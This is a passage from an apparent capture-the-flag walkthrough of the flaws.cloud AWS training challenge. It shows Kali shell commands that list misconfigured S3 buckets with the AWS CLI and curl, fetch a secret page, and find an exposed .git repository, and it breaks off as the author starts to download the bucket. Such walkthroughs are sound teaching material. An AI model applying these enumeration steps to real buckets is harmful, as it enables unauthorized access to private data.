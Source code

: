 Now trying to access the Level 2 bucket (without explicit usage of `--profile` the awscli uses the default profile in the credentials file)
```
root@kali:~ # aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 18:02:15      80751 everyone.png
2017-03-02 19:47:17       1433 hint1.html
2017-02-26 18:04:39       1035 hint2.html
2017-02-26 18:02:14       2786 index.html
2017-02-26 18:02:14         26 robots.txt
2017-02-26 18:02:15       1051 secret-e4443fc.html
root@kali:~ # curl -s level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html
...
Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>
```

## Level 3

### HTTP reconnaissance
Let's try accessing the Level 3 bucket via HTTP directly
```
root@kali:~ # curl -s level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.s3.amazonaws.com | xmllint --format - | grep '<Key>'
    <Key>.git/COMMIT_EDITMSG</Key>
    <Key>.git/HEAD</Key>
    <Key>.git/config</Key>
    <Key>.git/description</Key>
    <Key>.git/hooks/applypatch-msg.sample</Key>
    <Key>.git/hooks/commit-msg.sample</Key>
    <Key>.git/hooks/post-update.sample</Key>
    <Key>.git/hooks/pre-applypatch.sample</Key>
    <Key>.git/hooks/pre-commit.sample</Key>
    <Key>.git/hooks/pre-rebase.sample</Key>
    <Key>.git/hooks/prepare-commit-msg.sample</Key>
    <Key>.git/hooks/update.sample</Key>
    <Key>.git/index</Key>
    <Key>.git/info/exclude</Key>
    <Key>.git/logs/HEAD</Key>
    <Key>.git/logs/refs/heads/master</Key>
    <Key>.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25</Key>
    <Key>.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df</Key>
    <Key>.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c</Key>
    <Key>.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b</Key>
    <Key>.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c</Key>
    <Key>.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c</Key>
    <Key>.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526</Key>
    <Key>.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526</Key>
    <Key>.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2</Key>
    <Key>.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2</Key>
    <Key>.git/objects/f2/a144957997f15729d4491f251c3615d508b16a</Key>
    <Key>.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61</Key>
    <Key>.git/refs/heads/master</Key>
    <Key>authenticated_users.png</Key>
    <Key>hint1.html</Key>
    <Key>hint2.html</Key>
    <Key>hint3.html</Key>
    <Key>hint4.html</Key>
    <Key>index.html</Key>
    <Key>robots.txt</Key>
```
Looks like there is a git repository there. Pulling the entire bucket down:
```
root@kali:~ # mkdir flaws.cloud.level3.temp
root@kali:~ # cd flaws.cloud.level3.temp
```